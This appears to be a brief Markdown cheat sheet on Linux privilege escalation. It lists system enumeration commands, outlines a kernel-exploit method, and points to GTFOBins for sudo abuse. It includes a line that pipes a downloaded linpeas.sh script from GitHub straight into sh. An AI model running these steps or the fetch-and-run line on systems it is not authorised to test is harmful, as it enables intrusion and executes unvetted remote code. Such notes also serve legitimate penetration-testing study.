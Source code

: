 # privellege escilation

## Enumaration

```hostname```
```uname -a```
```cat /proc/version```
```cat /etc/passwd```
```env```
```history```

# Automated tools

```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```

## kernel exploits 
Privilege escalation ideally leads to root privileges. This can sometimes be achieved simply by exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access.


The Kernel exploit methodology is simple;

* Identify the kernel version
* Search and find an exploit code for the kernel version of the target system
* Run the exploit


Most of the cves can be found in [linux exploit cves]( https://www.linuxkernelcves.com/cves )


## Privilege Escalation: Sudo services
Any user can check its current situation related to root privileges using the ```sudo -l``` command.
[GFTOBINS](https://gtfobins.github.io/) is a valuable source that provides information on how any program, on which you may have sudo rights, can be used.
